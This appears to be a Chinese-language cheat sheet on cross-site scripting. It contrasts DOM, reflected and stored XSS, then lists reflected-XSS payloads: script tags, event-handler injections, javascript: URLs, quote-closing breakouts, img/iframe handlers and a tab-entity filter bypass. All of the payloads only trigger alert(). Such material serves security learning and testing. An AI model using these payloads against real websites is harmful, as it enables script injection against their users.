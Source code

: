 | 类型 | DOM型                 | 反射式                | 存储式                                     |
| :--: | --------------------- | --------------------- | ------------------------------------------ |
| 触发 | 用户打开恶意构造的URL | 用户打开恶意构造的URL | 1, 用户打开恶意构造的URL 2, 攻击者构造脚本 |
| 储存 | URL                   | URL                   | 数据库                                     |
| 输出 | 前端                  | 后端                  | 后端                                       |
| 方式 | DOM                   | HTTP响应              | HTTP响应                                   |



#### 1.反射型XSS攻击

##### 常用XSS攻击构造

**直接构造：**

```
xss=<script>alert(/2333/)</script>
```

**通过点击（事件）激活：**

```
'onclick='alert(/2333/);
'onclick=alert(/2333/)//
"onclick=alert(document.domain); id="a

'onmouseover=alert(/2333/)//
```

URL型用，**JavaScript伪类：javascript:**，的使用

```
javascript:alert(/2333/);
```

**伪造闭合：**

```
"><script>alert(/2333/)</script>

"><a onclick=alert(/2333/);></a>
```

**img标签构造：**

```
<img src=1 onerror=alert(/2333/)>
```

**iframe标签构造**：

```
<iframe onload=alert(/2333/)>
```

**a标签构造+URL截断（&#09）：**

```
"><a href="javascr&#09;ipt:alert(document.domain);">xxxxx</a>
```
